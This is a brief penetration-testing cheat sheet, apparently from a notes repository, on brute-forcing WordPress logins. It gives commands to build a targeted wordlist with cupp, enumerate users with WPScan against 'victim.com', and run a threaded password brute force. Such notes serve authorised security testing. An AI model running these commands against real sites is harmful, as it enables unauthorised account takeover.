 Wordpress
======
WordPress is a free and open-source CMS based on PHP and MySQL.

Brute Force with WPScan
======
Wordpress can be easily brute forced with WPScan, with an aid of cupp for generating the wordlist the attack is very effective
```
// Generate custom wordlist
./cupp.py

// Users enumeration
wpscan -u victim.com --enumerate u

// Brute force
wpscan -u victim.com --threads 20 --wordlist cupp_wordlist.txt --username enumerated_user
```